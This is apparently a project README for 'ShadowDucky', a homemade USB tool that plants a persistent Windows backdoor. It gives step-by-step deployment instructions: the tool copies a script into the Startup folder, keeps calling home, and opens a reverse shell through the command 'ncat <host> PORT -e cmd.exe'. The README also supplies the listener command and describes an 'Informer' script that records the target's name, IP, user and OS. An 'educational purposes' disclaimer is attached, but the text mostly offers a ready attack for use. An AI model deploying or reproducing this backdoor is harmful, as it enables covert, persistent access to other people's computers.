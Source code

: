 # ShadowDucky-USB
This is a home made "Rubber Ducky". it gives the user a reverse shell and can grab information for Windows to Windows Application

NOTE: most of the file paths in the files start with "D:\" this is because its application is from a USB. aswell as the folder "ShadowDuckyV1.2A" folder is not needed the proper format for the flashdrive is how its set up inside that folder.
NOTE: Shortcuts may have to be re-made for your application.


------------WELCOME TO SHADOW DUCKY... -------------------------------------------------TRY AND READ THE HIDDEN MESSAGE...-----------------------------

INFO: This is a USB remote back door. This program "ShadowDucky" will run when
"ShadowDuckyV2.vsb" is double clicked. Some of the files will have to be edited
in notepad to suit it best for it's application. Please follow the listed instructions
below to help you properly run "ShadowDucky". 

This was created as a project to learn Powershell functionality, scripting with different
coding languages, and reverse shelling. This is a reverse shell for Windows to Windows.

NOTE: Required rescourses will be Powershell, Nmap, Windows.

ShadowDucky: Uses a combination of VBScript, ".bat" cmd and powershell functionality.
This program once ran will move the RubberDucky.bat into the "Intel" file and the 
"ShadowDucky.vsb" to the Startup folder to activate each time the computer starts
up and is logged into. It will continuesly ping the host computer until a connection
is made, after the host disconnects it will resume pinging until theres a new connection.
Each time the target computer is on it will allow for a reverse shell from a remote device at anypoint in time 
(as long as target device is on).

NOTE: ShadowDucky runs in the background for better use.

-------------------------------------------------------------INSTRUCTIONS-----------------------------------------------------------------------------

1st: You will need to install "nmap" on both your computer and target device in order to use ShadowDucky.
Nmap: https://nmap.org/download

2nd: You will need to place the IP of your host device into "RubberDucky.bat"
     you place IP of host and PORT being used into that function.

EX: powershell -command do {ncat FF.FF.FF.FF PORT -e cmd.exe} until ($ping) 
EX: powershell -command do {ncat 00.00.00.00 0000 -e cmd.exe} until ($ping)


3th: After settings are changed, plug ShadowDucky usb into target device
     and double click ShadowDuckyV2.vbs and watch the show.
	 return to Host device and use powershell and use the following command 
	 to connect the target device.
	 
EX: ncat -l -p PORT -v
EX: ncat -l -p 0000 -v
    make sure the port is the same number as the port set up in "RubberDucky.bat"	 

4th:ENJOY @-[:]

HIDDEN MESSAGE: sx& vqz& rlj& bulf& gost& kztg& djqp& gou& hzggtum& olt& huazj& ljf& sw& lnbulfv& sj& oubu& plndsja& lbqzjf&.& &Solfqp& qb& jqg& vqz& rljg& tuu& wu

ADVISEMENT & DISCLAIMER: This application was made for purely Educational Purposes. 
                        Developer will not be heald liable for any miss use with
                        this source code. Please be sure if you are going to use
                        "ShadowDucky" that it is on your own devices or you have
                        permission from the owner of the device(s). 
+---------+
| Shadow  |
|   Drums |
|  TM     |
+---------+
-----------------------------------------------------------------------------

--------------WELCOME TO SHADOW DUCKY INFORMER-------------------------------------------

NOTICE: USE INFORMER BEFOR SHADOWDUCKY TO GET INFO TO SET UP SHADOWDUCKY FOR USAGE

ShadowDucky Informer helps with getting the information you need in order to edit and 
use ShadowDucky. "This Informer" will give the user a print out in the ShadowDucky USB,
Intel-Report Folder. The current computers name, IPv4, User Name, and OS will be printed
out into Intel-Report.txt

--------------------------------------INSTRUCTIONS---------------------------------------

Double click Informer.vbs and wait a minute for your report to be given.
After one minute check the Intel-Report Folder and use the information
in the ".txt" to set up ShadowDucky.

TO SET UP SHADOWDUCKY:

Read the "README.txt" in the README Folder

-----------------------------------------------------------------------------------------

          DISCLAIMER:   This application was made for purely Educational Purposes. 
                        Developer will not be heald liable for any miss use with
                        this source code. Please be sure if you are going to use
                        "ShadowDucky" that it is on your own devices or you have
                        permission from the owner of the device(s).
------------
|  Shadow  |
|    Drums |
|   TM     |
------------
-----------------------------------------------------------------------------

Please Be Responsible

